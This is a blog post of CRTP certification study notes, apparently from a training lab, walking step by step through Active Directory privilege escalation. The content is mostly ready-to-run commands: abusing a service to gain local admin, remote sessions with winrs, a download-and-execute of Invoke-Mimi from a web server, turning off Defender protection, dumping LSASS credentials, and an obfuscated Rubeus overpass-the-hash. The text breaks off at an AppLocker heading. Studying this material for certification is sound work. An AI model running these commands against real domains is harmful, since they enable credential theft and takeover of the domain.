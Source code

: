 ```yaml
---
layout: post
title: Active Directory (AD) | Local Privilege Escalation
date: 2024-06-25 7:40:00 +0800
categories: [Cert, CRTP]
tags: [Cert, Active Directory]     # TAG names should always be lowercase
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```



## 1. Local Privilege Escalation

 In Active Directory Environment, there are multiple scenarios which lead to privilege escalation. We had a look at the following:
 
 - Hunting for Local Admin access on other machines
 - Hunting for high privilege domain accounts (like a Domain Administrator)
 - Example Scenario : I have local admin access on a machine --> A Domain Admin has a session on that machine --> I steal his token and impersonate him --> Profit!

 There are various ways of locally escalting privilege on Windows:
 
 - Missing Patches
 - Automated Deployment and AutoLogon password in clear text
 - AlwaysInstallElevated (Any user can run MSI on SYSTEM)
 - Misconfigured Services
 - DLL Hijacking and more
 - NTLM Relaying a.k.a Wont’t Fix
 - NTLM Relaying example - https://github.com/antonioCoco/RemotePotato0

 We can use below tools for complete coverage:
 
 - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
 - https://github.com/enjoiz/Privesc
 - https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md - Very NOISY

## 2. Check for any privilege escalation path - PowerUp

First step for local privilege escalation, we will try to check for any privilege escalation path. Then if we found any services that can be abused, we can add our domain user to the local admin group.

```bash
#Check for any priviliege escalation path
Invoke-AllChecks
```

![Result](/img/crtp/result1.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

```bash
#Abuse the service and add our current domain user to the local Administrator group
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
```

![Result](/img/crtp/result1.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Now, our user is a local admin !

## 3. Identify any machine in the domain where our user has local administrative - Find-PSRemotingLocalAdminAccess.ps1

Next step, we will try to identify any computers/machines in the domain where our user has local administrative access. 


```bash
#Identify a computer within the network domain where the current user has local admin privileges.
Find-PSRemotingLocalAdminAccess
```

We can connect to the machine who has the local administrative access by using winrs

```bash
winrs -r:dcorp-adminsrv cmd

#Checking the username and computername in the remote winrs session
set username
set computername
```

We can also use PowerShell Remoting

```bash
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

## 4. Identify a machine in the domain where a Domain Admin session is available - PowerView

A request will be sent to Domain Controller to retrieve all ComputerName and membership of the domain admin's group which has admin session there.

```bash
Find-DomainUserLocation
```

## 5. Extract Credentials from LSASS - Invoke Mimikatz

Once we have remote admin session on the remote machine, we will extract credentials from LSASS. Bear in mind , **to avoid LSASS unless you have nothing to do.**

Check if we can run commands on dcorp-mgmt using PowerShell remoting

```bash
Invoke-Command -ScriptBlock {$env:username;$env:computername} -ComputerName dcorp-mgmt
```

Now, let’s use Invoke-Mimi to dump hashes on dcorp-mgmt to grab hashes of the domain admin. This script is to downloads and executes the Invoke-Mimi.ps1 that is hosted in my web server.

```bash
 iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
```

Then, we need to bypass the AMSI using our [script](https://beardenx.github.io/posts/Bypass-AMSI-Like-a-King/). OR

we can use the AMSI bypass we have been using or the built-in Set-MpPrefernce as well because we have administrative access on dcorp-mgmt


```bash
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local

Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess

Invoke-command -ScriptBlock ${function:Invoke-Mimi} -Session $sess
```

## 6. Using OverPass-the-Hash - Rubeus

Finally, use OverPass-the-Hash to use svcadmin's credentials.

Run the below commands from an elevated shell on the student VM to use Rubeus.

```bash
ArgSplit.bat

#Run the above commands in the same command prompt session
set "z=t"
set "y=g"
set "x=t"
set "w=k"
set "v=s"
set "u=a"
set "Pwn=%u%%v%%w%%x%%y%%z%"
```


```bash
Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Now, we get our TGT Ticket. Try accessing the domain controller from the new process!
Note that we did not need to have direct access to dcorp-mgmt from student machine 100.X.

```bash
winrs -r:dcorp-dc cmd /c set username USERNAME=svcadmin
```

## 7. Domain Admin Escalation using Derivative Local Admin - Find-PSRemotingLocalAdminAccess.ps1


```bash
 Find-PSRemotingLocalAdminAccess
```

Bypassing Applocker
